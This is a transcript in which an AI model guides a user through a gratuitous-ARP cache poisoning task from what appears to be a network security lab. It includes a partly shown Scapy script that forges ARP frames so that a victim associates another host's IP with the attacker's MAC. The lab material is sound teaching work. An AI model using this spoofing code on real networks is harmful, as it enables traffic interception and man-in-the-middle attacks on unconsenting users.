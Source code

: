 
---

### Assistant (gemini-2.5-pro)

Okay, let's proceed with Task 1.C, using a Gratuitous ARP request.

**Goal:** Poison Host A's ARP cache using a specially crafted gratuitous ARP request sent from Host M. The objective remains to map B's IP (`10.9.0.6`) to M's MAC (`02:42:0a:09:00:69`). We'll test this under the same two conditions as Task 1.B.

**Key Characteristics of Gratuitous ARP (as per lab description):**

*   It's an ARP Request (`op=1`).
*   Source IP (`psrc`) and Target IP (`pdst`) in the ARP layer are the *same* - the IP address being announced (in our case, `IP_B`).
*   The destination MAC address in *both* the Ethernet header (`ether.dst`) and the ARP header (`arp.hwdst`) is the broadcast MAC (`ff:ff:ff:ff:ff:ff`).
*   The source MAC in both Ethernet (`ether.src`) and ARP (`arp.hwsrc`) is the MAC of the sender (in our case, `MAC_M`).

**Steps:**

1.  **Create the Python Script (on Host M):**
    Create a file named `task1c.py` on Host M:
    ```python
    #!/usr/bin/env python3

    from scapy.all import Ether, ARP, sendp

    # Define the IP and MAC addresses based on your settings.txt
    IP_B = "10.9.0.6"          # The IP address we are claiming
    MAC_M = "02:42:0a:09:00:69" # Attacker's MAC address
    BROADCAST_MAC = "ff:ff:ff:ff:ff:ff"

    print("--- Sending Malicious Gratuitous ARP Request ---")
    print(f"Announcing that {IP_B} is at {MAC_M} via Gratuitous ARP")

    # Construct the Ethernet frame
    # Source MAC is the attacker's MAC (MAC_M)
    # Destination MAC is Broadcast
    ether = Ether(src=MAC_M, dst=BROADCAST_MAC)

    # Construct the ARP packet
    # op=1 signifies an ARP Request
    # hwsrc = Sender MAC -> Attacker's MAC (MAC_M)
    # psrc  = Sender IP  -> IP we want to impersonate/claim (IP_B)
    # hwdst = Target MAC -> Broadcast MAC (as per gratuitous ARP spec in lab)